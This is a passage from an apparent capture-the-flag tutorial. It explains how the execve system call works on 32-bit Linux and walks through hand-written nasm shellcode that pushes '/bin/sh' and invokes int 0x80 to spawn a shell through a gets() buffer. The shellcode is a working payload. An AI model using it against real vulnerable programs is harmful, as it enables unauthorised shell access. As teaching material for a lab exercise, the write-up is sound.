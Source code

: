 But sometimes, you'll see this written:

```c
execve("/bin/sh", 0, 0);
```

Which will also work (on *linux **ONLY***). The difference is that first one uses a pointer to an array that contains a null, in the later the pointer itself is null. Linux allows the later, but strictly speaking the former is the correct form of invoking execve without any `argv` or `envp`.

If you can fill `buf` with the machine code corresponding with a call to `execve` like that, then the current program will be replaced with `"/bin/sh"` and you will have access to a shell. If you're already sitting on some sweet shellcode, then go ahead and attempt `/problems/shellcode_2_0caa0f1860741079dd0a66ccf032c5f4` on the shell server now.

## Background Info

When compiling c code, `execve` is normally linked into libc, but ultimately, the call itself is performed by the kernel. In fact, the kernel has it's own implementation of exactly the `execve` function and we can request that the kernel execute that function by performing a system call. Exactly what system calls are available, and how you call them, varies by platform. For 32-bit x86 programs, the exact system calls available ultimately depend on your kernel sources, but there exist [tables](https://syscalls32.paolostivanin.com/) that have done the work for you and present everything in a simple way.

Looking for `SYS_execve`, we see for 32-bit linux systems the syscall number is `0x0b` (11). This value goes into the `eax` register. Likewise, a pointer to the filename goes into `ebx`, a pointer to the `argv[]` goes into `ecx`, and a pointer to the `envp[]` array goes into `edx`. On 32-bit x86 linux, a system call can be requested by executing the "`int 0x80`" instruction, which is a software interrupt (number `0x80`). **NOTE**: There are other methods of invoking a system call as well, including `sysenter` and `vDSO`, but the software interrupt is simplest (and slowest) method.

We also note that we are executing `buf` directly, and that it's value isn't copied around first using something like `strcpy` or `strdup`. Therefore, we don't have to worry about the buffer being truncating after nulls, because `gets()` itself will continuing copying past any null bytes up-to the first newline (`'\n'` == `0x0A`). Therefor, the only "illegal" character that our shellcode should not contain is a newline.

Now that we have all the information we need, let's craft some shellcode by hand. Here, I'll be using `nasm` to compile my assembly code (text) into machine code (binary bytes corresponding with opcodes).

```nasm
; ~/exploit_shell.S

USE32 ; Directive for nasm to indicate this is 32 bit code

; execve("/bin/sh", (char*[]){NULL}, (char*[]){NULL})

push 0x0068732f ; pushes bytes "/sh" + '\0' - but represented as a little-endian 32bit dword
push 0x6e69622f ; pushes bytes "/bin" - but represented as a little-endian 32bit dword
mov ebx, esp ; ebx = stack pointer, which points at the null-terminated byte sequence "/bin/sh"

xor eax, eax ; eax = 0
push eax ; push 0

mov al, 0x0b ; eax = 0x0b (SYS_execve)

mov ecx, esp ; ecx = stack pointer, which points at a 4 byte '0' (aka NULL)
mov edx, esp ; edx = stack pointer, which points at a 4 byte '0' (aka NULL)

int 0x80 ; syscall
```
